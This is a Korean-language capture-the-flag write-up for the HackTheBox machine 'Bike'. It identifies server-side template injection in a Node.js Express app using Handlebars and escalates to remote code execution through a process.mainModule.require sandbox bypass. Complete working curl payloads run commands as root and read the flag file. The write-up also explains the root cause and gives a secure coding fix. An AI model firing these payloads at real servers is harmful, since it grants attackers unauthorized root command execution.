








# Bike

## 개요

Node.js Express 기반 웹 애플리케이션에서 Handlebars 템플릿 엔진을 사용하는 서버의 SSTI(Server Side Template Injection) 취약점을 식별하고, 샌드박스 우회를 통해 원격 코드 실행(RCE)까지 도달하는 머신이다. 템플릿 엔진이 사용자 입력을 직접 파싱하는 구조적 문제와, Node.js 전역 객체를 통한 샌드박스 탈출 기법을 실습할 수 있다.

## 대상 정보

| 항목 | 내용 |
|------|------|
| 플랫폼 | HackTheBox Starting Point Tier 1 |
| 운영체제 | Linux |
| 개방 포트 | 22 (SSH), 80 (HTTP) |
| 주요 기술 스택 | Node.js, Express, Handlebars |
| 취약점 | Server Side Template Injection (SSTI) |

---

## 풀이 과정

### 1. 포트 스캔

nmap으로 대상 서버의 열린 포트와 서비스 버전을 확인한다.

```bash
nmap -sC -sV $IP
```



22번 포트에서 OpenSSH, 80번 포트에서 Node.js(Express middleware)가 동작하고 있음을 확인했다. HTTP 타이틀이 "Bike"로 표시된다.

---

### 2. 웹 서비스 확인

브라우저로 80번 포트에 접속하면 "Website Under Construction" 페이지가 나타나며, 이메일 주소를 입력하는 단일 폼이 존재한다.



입력된 이메일 주소가 서버에서 처리된 후 페이지에 출력되는 구조이므로, 사용자 입력이 템플릿에 삽입되는지 여부를 확인할 필요가 있다.

---

### 3. 기술 스택 파악 (Wappalyzer)

Wappalyzer 확장 프로그램으로 웹 프레임워크와 언어를 확인한다.



Web frameworks에 **Express**, Programming languages에 **Node.js**가 표시된다. nmap 결과와 일치하며, 서버 사이드 템플릿 엔진 사용 여부를 추가로 확인해야 한다.

---

### 4. SSTI 취약점 테스트

Handlebars의 템플릿 문법인 `{{7*7}}`을 이메일 필드에 삽입하여 서버가 해당 표현식을 실행하는지 확인한다.

```bash
curl -s -X POST http://$IP \
  --data-urlencode 'email={{7*7}}' \
  --data 'action=Submit'
```



`*` 연산자는 Handlebars 문법에서 지원되지 않기 때문에 파서 에러가 반환됐다. 그러나 에러 메시지 자체가 서버가 입력값을 Handlebars 템플릿으로 파싱 시도했다는 증거다. 스택 트레이스에 `/root/Backend/node_modules/handlebars/`가 노출되어 사용 중인 템플릿 엔진이 **Handlebars**임을 확인할 수 있다.

---

### 5. RCE 페이로드 시도 — require 샌드박스 차단 확인

HackTricks의 Handlebars RCE 페이로드를 그대로 사용하면 `require`를 통해 `child_process`를 호출하려 시도한다. 이 페이로드를 `email` 파라미터에 삽입하고 URL 인코딩 처리 후 전송한다.

```bash
curl -s -X POST http://$IP \
  --data-urlencode 'email={{#with "s" as |string|}}{{#with "e"}}{{#with split as |conslist|}}{{this.pop}}{{this.push (lookup string.sub "constructor")}}{{this.pop}}{{#with string.split as |codelist|}}{{this.pop}}{{this.push "return require('"'"'child_process'"'"').execSync('"'"'id'"'"');"}}{{this.pop}}{{#each conslist}}{{#with (string.sub.apply 0 codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}' \
  --data 'action=Submit'
```



`ReferenceError: require is not defined` 에러가 반환됐다. Handlebars는 샌드박스 환경에서 실행되기 때문에, Node.js의 전역 함수인 `require`에 직접 접근이 차단된다. `require`는 `global` 객체의 프로퍼티가 아니라 모듈 시스템이 각 파일에 주입하는 함수이기 때문에, 샌드박스 컨텍스트에서는 존재하지 않는 것으로 처리된다.

---

### 6. 샌드박스 우회 — process.mainModule을 통한 RCE

`require` 대신 `process.mainModule.require`를 사용하면 샌드박스를 우회할 수 있다. `process`는 Node.js의 전역 객체(`global`)에 속하므로 Handlebars 컨텍스트에서도 접근이 가능하며, `mainModule`을 통해 메인 모듈의 `require` 함수에 도달할 수 있다.

먼저 `id` 명령어로 현재 실행 중인 유저를 확인한다.

```bash
curl -s -X POST http://$IP \
  --data-urlencode 'email={{#with "s" as |string|}}{{#with "e"}}{{#with split as |conslist|}}{{this.pop}}{{this.push (lookup string.sub "constructor")}}{{this.pop}}{{#with string.split as |codelist|}}{{this.pop}}{{this.push "return process.mainModule.require('"'"'child_process'"'"').execSync('"'"'id'"'"').toString();"}}{{this.pop}}{{#each conslist}}{{#with (string.sub.apply 0 codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}' \
  --data 'action=Submit'
```





응답에서 `uid=0(root) gid=0(root) groups=0(root)`가 확인됐다. 웹서버가 root 권한으로 실행되고 있으며, RCE가 성공적으로 달성됐다.

---

### 7. Flag 획득

동일한 페이로드에서 실행 명령어를 `cat /root/flag.txt`로 변경하여 Flag를 읽어낸다.

```bash
curl -s -X POST http://$IP \
  --data-urlencode 'email={{#with "s" as |string|}}{{#with "e"}}{{#with split as |conslist|}}{{this.pop}}{{this.push (lookup string.sub "constructor")}}{{this.pop}}{{#with string.split as |codelist|}}{{this.pop}}{{this.push "return process.mainModule.require('"'"'child_process'"'"').execSync('"'"'cat /root/flag.txt'"'"').toString();"}}{{this.pop}}{{#each conslist}}{{#with (string.sub.apply 0 codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}' \
  --data 'action=Submit'
```



Flag를 성공적으로 획득했다.

---

## 취약점 원인 분석

이 취약점은 서버가 사용자 입력을 **템플릿 문자열로 직접 컴파일**하는 구조에서 발생한다. 정상적인 구현에서는 사용자 입력이 템플릿의 데이터로만 전달되어야 하는데, 이 서버는 입력값 자체를 Handlebars 템플릿으로 파싱하고 있었다.

```javascript
// 취약한 구조 (추정)
const template = Handlebars.compile(req.body.email);
const result = template({});

// 안전한 구조
const template = Handlebars.compile("Your email: {{email}}");
const result = template({ email: req.body.email });
```

Handlebars는 샌드박스를 적용해 `require`를 직접 차단했지만, `process.mainModule`을 통한 우회 경로를 막지 못했다. 최신 버전의 Handlebars(4.7.7+)에서는 이 우회 경로도 패치되어 있다.

---

## 실제 환경에서의 위험성

웹서버가 root 권한으로 실행되고 있었기 때문에, SSTI 취약점 하나로 서버 전체에 대한 완전한 제어권을 획득할 수 있었다. 실제 환경에서는 데이터베이스 탈취, 백도어 설치, 내부망 피벗 등으로 이어질 수 있다.

---

## 핵심 정리

| 항목 | 내용 |
|------|------|
| 취약점 | SSTI (Server Side Template Injection) |
| 대상 엔진 | Handlebars (Node.js) |
| 탐지 방법 | 템플릿 문법 삽입 후 에러 메시지로 엔진 확인 |
| 1차 차단 | `require is not defined` (Handlebars 샌드박스) |
| 우회 방법 | `process.mainModule.require('child_process')` |
| 실행 권한 | root (uid=0) |
| 교훈 | 사용자 입력은 템플릿의 데이터로만 사용해야 하며, 템플릿 문자열 자체로 컴파일해서는 안 된다 |
